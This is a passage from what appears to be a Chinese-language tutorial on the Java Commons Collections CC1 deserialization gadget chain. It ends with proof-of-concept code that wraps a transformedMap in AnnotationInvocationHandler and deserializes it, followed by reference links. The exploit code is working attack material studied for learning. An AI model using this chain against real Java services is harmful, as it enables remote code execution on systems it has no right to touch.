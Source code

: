 ```
//        }

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(SuppressWarnings.class, transformedMap);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(obj);
        //oos.close();
        //System.out.println(barr);

        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();

    }
}
```

![image](https://user-images.githubusercontent.com/84888757/204728450-6b84a6df-8827-44ac-81cf-67ad1f9b8070.png)


## 0x04 参考链接
- [Java安全漫谈 - 10.用TransformedMap编写真正的POC](https://t.zsxq.com/ZNZrJMZ)
- [Java安全漫谈 - 11.LazyMap详解](https://t.zsxq.com/FufUf2B)
- [JAVA安全|Gadget篇：TransformedMap CC1链 @walker1995](https://mp.weixin.qq.com/s/1ql85oy2XLD9RljrBpmg8A)
- [Java反序列化CommonsCollections篇(一) CC1链手写EXP @白日梦组长](https://www.bilibili.com/video/BV1no4y1U7E1/?spm_id_from=333.999.0.0&vd_source=d97edb6eb916442af659cdbbc179091c)




